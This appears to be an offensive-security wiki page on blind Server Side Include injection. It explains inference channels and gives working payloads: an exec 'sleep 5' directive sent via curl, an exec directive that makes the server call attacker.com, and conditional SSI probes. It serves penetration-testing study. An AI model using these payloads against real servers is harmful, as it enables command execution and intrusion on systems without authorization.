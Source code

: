 ```yaml
---
title: 'Blind SSI Injection: Exploit Techniques & Inference Methods'
description: Explore blind SSI injection methods, leveraging timing, error states,
  and out-of-band interactions to identify vulnerabilities.
keywords:
- Blind SSI Injection
- time-based SSI
- out-of-band SSI
- command execution
- information disclosure
- inference-based SSI
- conditional SSI
- web server vulnerabilities
- SSI directives
---
```


# Blind SSI Injection

## Context

Blind Server Side Include (SSI) Injection is a technique employed by offensive security professionals to exploit vulnerabilities within web applications. The unique challenge of blind SSI injection is that the attacker cannot directly observe the outcome of the injected payloads in the HTTP response. Instead, attackers leverage indirect effects such as time-based delays, out-of-band communications, or conditional logic to infer success. It is crucial to understand SSI directives and how web servers process these requests, along with the fundamentals of HTTP request and response cycles, to effectively execute blind SSI injections.

## Theory

### Nature of Blind SSI Injection

Blind SSI injection occurs when an attacker successfully injects SSI directives within a vulnerable web application, but the output is suppressed or not directly visible in the HTTP response. Unlike typical SSI injections where the output is visibly returned to the user, blind injections require inference based on indirect indicators like timing or system-side effects.

### Inference Channels in Blind SSI

Successful exploitation of blind SSI vulnerabilities depends on inference channels. Timing attacks introduce measurable delays within the response, indicating successful execution. Error states or out-of-band effects, such as triggering an external HTTP request, can also provide confirmation of SSI code execution. The challenge is to recognize these indirect effects as evidence of a successful attack.

### Blind SSI Exploitation Techniques

- **Time-Based SSI:** This technique uses injected SSI directives that introduce a delay, such as `sleep`, to determine if the SSI executed based on an increase in response time.
  
- **Out-of-Band SSI:** External interactions are triggered (such as a request to an attacker-controlled server) to confirm execution. These interactions can be monitored to verify code execution.
  
- **Boolean/Conditional SSI:** Conditional logic within SSI is used to alter application behavior. Inferences are made by observing any change based on the condition’s outcome.

### Attacker Mindset for Blind SSI

Attackers must focus on the side effects of SSI execution rather than direct evidence. They craft payloads to exploit delays, logs, callbacks, or errors to confirm the presence and execution of SSI directives. The key is to design payloads that maximize the detectability of these indirect effects.

## Practice

### Time-Based Blind SSI Injection

Time-based blind SSI injection involves injecting directives that cause a delay, allowing the attacker to observe the increase in response time as confirmation of successful execution.

- **Payload:**

    ```http
    <!--#exec cmd="sleep 5"-->
    ```

- **Execution:**

    ```bash
    curl -w '%{time_total}\n' -X POST -d 'input=<!--#exec cmd="sleep 5"-->' http://target/path
    ```

  Measure the response time. A notable delay indicates successful SSI execution.

### Out-of-Band Blind SSI Injection

This technique uses SSI payloads that cause the server to make an outbound request. By monitoring the attacker's server for these requests, execution success is inferred.

- **Payload:**

    ```http
    <!--#exec cmd="curl http://attacker.com/ssi_poc"-->
    ```

- **Steps:**

    - Inject the payload in the vulnerable input field.
    - Monitor your server logs at `attacker.com` for incoming requests. The presence of a request confirms execution.

### Boolean/Conditional Blind SSI Injection

Conditional SSI logic is used to infer execution by observing changes in behavior or output based on logical conditions evaluated within the server.

- **Payload:**

    ```http
    <!--#if expr="1 = 2" -->FAIL<!--#endif--><!--#if expr="1 = 1" -->SUCCESS<!--#endif-->
    ```

- **Observation:**

    Check for observable changes in the application behavior or logs that suggest conditional logic execution. Success is inferred through any difference in server processing.

## Tools

- **curl**
- **Burp Suite**
- **tcpdump**
- **netcat**

By mastering these techniques, attackers can efficiently exploit blind SSI vulnerabilities in web applications, leveraging indirect cues and side effects to infer successful command execution or information disclosure.